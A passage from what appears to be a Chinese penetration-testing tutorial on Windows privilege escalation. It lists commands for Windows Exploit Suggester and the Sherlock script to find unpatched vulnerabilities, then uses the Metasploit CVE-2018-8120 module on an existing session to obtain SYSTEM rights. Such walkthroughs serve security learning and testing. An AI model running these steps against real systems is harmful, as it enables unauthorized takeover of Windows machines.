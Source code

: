 

**方法四**：Windows Exploit Suggester



该工具可以将系统中已经安装的补丁程序与微软的漏洞数据库进行比较，并可以识别可能导致权限提升的漏洞，而其只需要目标系统的信息。



```
#更新漏洞数据库，会生成一个xls的文件，如下 2020-02-12-mssb.xls      
python2 windows-exploit-suggester.py --update       
#查看目标主机系统信息，保存为sysinfo.txt文件      
systeminfo > sysinfo.txt       
#然后运行如下命令，查看该系统是否存在可利用的提权漏洞      
python2 windows-exploit-suggester.py -d 2020-02-12-mssb.xls -i sysinfo.txt
```




![](https://img-blog.csdnimg.cn/20200212164221695.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**方法五**：Sherlock脚本



```
#搜索所有未安装的补丁      
Import-Module  .\Sherlock.ps1;Find-AllVulns      
#也可以搜索单个漏洞      
Import-Module  .\Sherlock.ps1;Find-MS14058
```




![](https://img-blog.csdnimg.cn/20200212164930753.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



###  选择利用模块攻击



首先，输入 background 退回到MSF下，然后 search  cve-2018-8120  ，可以看到找到了一个漏洞利用Exploit模块，我们使用该模块



```
use exploit/windows/local/ms18_8120_win32k_privesc
```




![](https://img-blog.csdnimg.cn/2019111010451777.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



设置 session 为我们刚刚获得权限的 session ID，exploit 运行。可以看到，我们获得了 System 权限。



![](https://img-blog.csdnimg.cn/20191110104557450.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)